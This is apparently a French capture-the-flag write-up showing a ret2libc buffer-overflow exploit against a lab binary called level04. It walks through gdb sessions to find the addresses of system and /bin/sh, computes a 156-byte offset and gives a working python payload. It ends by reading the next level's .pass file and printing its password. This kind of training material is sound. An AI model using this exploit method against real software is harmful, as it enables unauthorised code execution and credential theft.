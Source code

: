 # Ret2libc Exploitation

En décompilant l'exécutable, on remarque qu'il n'y a aucun appel à la fonction `system`, qui permettrait de lancer un `shell`, et qu'il n'y a aucune lecture du fichier `.pass`. En revanche, on remarque un `buffer` dans la fonction `main` ainsi qu'un `get` copiant directement l'entrée utilisateur en entrée standard dans le `buffer`. Un `buffer` de `32` octets semble trop petit pour accueillir le `shell code` que nous utilisons habituellement. Nénamoins, l'exploit `Ret2libc` semble réalisable.

Pour rappel, l'exploit `Ret2libc` a pour but d'écraser l'adresse de retour de la fonction actuelle (ici `main`) pour la remplacer par l'adresse de `system` avec en argument `/bin/sh`. Nous avons donc besoin de connaître :
- l'adresse de `system`.
- l'adresse de `/bin/sh`.
- l'adresse du `buffer`.
- l'adresse de retour de la fonction `main` (`eip`).

Nous utiliserons `gdb` pour déterminer ces adresses. On peut, au préalable `break` au niveau du `get`. Cela nous permettra d'afficher la `stack` pour déterminer l'adresse du `buffer` ainsi que l'adresse de `eip`.

> Il est important de noter que le programme effectue un `fork` au lancement. Dans `gdb`, il est impératif d'utiliser la commande `set follow-fork-mode child` sans quoi il sera impossible de `break` sur une instruction.
```
> gdb level04
[...]
> (gdb) set follow-fork-mode child
> (gdb) disas main
[...]
   0x08048757 <+143>:	lea    0x20(%esp),%eax
   0x0804875b <+147>:	mov    %eax,(%esp)
   0x0804875e <+150>:	call   0x80484b0 <gets@plt>
   0x08048763 <+155>:	jmp    0x804881a <main+338>
   0x08048768 <+160>:	nop
[...]
> (gdb) b *0x08048763
Breakpoint 2 at 0x8048763
> r
[...]
```

---

**Adresse de `system`**
```
> (gdb) p system 
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```
L'adresse de `system` est `0xf7e6aed0`.

**Adresse de `/bin/sh`**
```
> (gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```
L'adresse de `/bin/sh` est `0xf7f897ec`.

---

On peut ensuite visualiser l'adresse de notre `buffer` ainsi que celle de `eip` en saisissant une entrée simple en entrée standard. Nous utiliserons ici la chaîne de caractères `AAAA`. L'adresse du début du `buffer` est située à l'adresse pointée par `esp`. C'est l'argument de la fonction `get`.

```
AAAA
> (gdb) x $esp
0xffffd650:	0xffffd670
```
On peut le visualiser globalement en imprimant la `stack`.
```
> (gdb) x/20wx $esp
0xffffd650:	0xffffd670	0x00000000	0x00000000	0x00000000
                     ^
                     adresse du buffer
0xffffd660:	0x00000b80	0x00000000	0xf7fdc714	0x00000000
0xffffd670:	0x41414141	0x00000000	0x00000000	0x00000000
                     ^
                     AAAA
0xffffd680:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd690:	0x00000000	0x00000000	0x00000000	0x00000000
```
L'adresse du `buffer` est `0xffffd670`.

L'adresse de `eip` étant stockée à `ebp+0x04`, on peut l'afficher dans `gdb`.

```
> (gdb) x $ebp+0x04
0xffffd70c:	0xf7e45513
> (gdb) x 0xf7e45513
0xf7e45513 <__libc_start_main+243>:	0xe8240489
```

L'adresse où est stocké `eip` est `0xffffd70c`.

Plus globalement :
```
> (gdb) x/48wx $esp
0xffffd650:	0xffffd670	0x00000000	0x00000000	0x00000000
                     ^
                     adresse du buffer
0xffffd660:	0x00000b80	0x00000000	0xf7fdc714	0x00000000
0xffffd670:	0x41414141	0x00000000	0x00000000	0x00000000
                     ^
                     AAAA
0xffffd680:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd690:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd6a0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd6b0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd6c0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd6d0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd6e0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd6f0:	0xf7feb620	0x00000000	0x00000000	0x00000000
0xffffd700:	0xf7fceff4	0x00000000	0x00000000	0xf7e45513
                                                         ^
                                                         eip
```
Pour connaitre le nombre de caractère necessaires afin d'atteindre `eip`, nous pouvons effectuer ce calcul :
```
nombre_de_caractères = adresse_eip - adresse_buffer
                     = 0xffffd70c - 0xffffd670
                     = 0x9c
                     = 156 (base 10)
```
Il nous faudra donc entrer `156` caractères afin d'atteindre `eip`. Nous pouvons représenter notre entrée de cette manière :
```
[156 caractères] + [adresse_system] + [adresse_retour_system] + [adresse_bin_sh]
```
Concrètement :
```
> python -c 'print "A"*156 + "\xd0\xae\xe6\xf7" + "OSEF" + "\xec\x97\xf8\xf7"' > /tmp/input
> cat /tmp/input - | ./level04
Give me some shellcode, k

whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
